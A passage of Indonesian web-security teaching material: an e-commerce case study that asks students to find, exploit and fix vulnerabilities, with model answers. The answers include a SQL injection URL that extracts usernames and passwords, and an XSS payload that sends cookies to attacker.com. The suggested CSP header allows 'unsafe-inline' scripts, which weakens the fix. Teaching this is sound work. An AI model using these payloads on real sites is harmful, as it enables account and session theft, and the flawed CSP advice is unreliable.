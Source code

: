    ```php
   
   // Saat memverifikasi
   if (verifyReference($user_id, $_GET['ref'])) {
       // Lanjutkan dengan akses aman
   }
   ```

## 📝 Studi Kasus: Keamanan Aplikasi E-Commerce

**Latar Belakang:**
Sebuah toko online memiliki fitur-fitur berikut:
- Login pengguna
- Pencarian produk
- Keranjang belanja
- Checkout dan pembayaran
- Riwayat transaksi
- Ulasan produk

**Pertanyaan:**
1. Identifikasi 5 potensi kerentanan keamanan yang mungkin ada pada aplikasi tersebut!
2. Jelaskan bagaimana cara mengeksploitasi masing-masing kerentanan tersebut!
3. Berikan rekomendasi untuk memperbaiki setiap kerentanan!

**Jawaban Contoh:**

1. **Kerentanan: SQL Injection pada Pencarian Produk**
   - **Eksploitasi:** 
     ```
     https://example.com/search?q=prod' UNION SELECT username, password FROM users--
     ```
   - **Rekomendasi:**
     ```php
     // Gunakan prepared statements
     $stmt = $pdo->prepare("SELECT * FROM products WHERE name LIKE ?");
     $searchTerm = "%" . $_GET['q'] . "%";
     $stmt->execute([$searchTerm]);
     ```

2. **Kerentanan: XSS pada Ulasan Produk**
   - **Eksploitasi:** 
     ```html
     <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
     ```
   - **Rekomendasi:**
     ```php
     // Gunakan output encoding
     echo htmlspecialchars($review['content'], ENT_QUOTES, 'UTF-8');
     
     // Tambahkan CSP header
     header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' https://trusted.cdn.com");
     ```
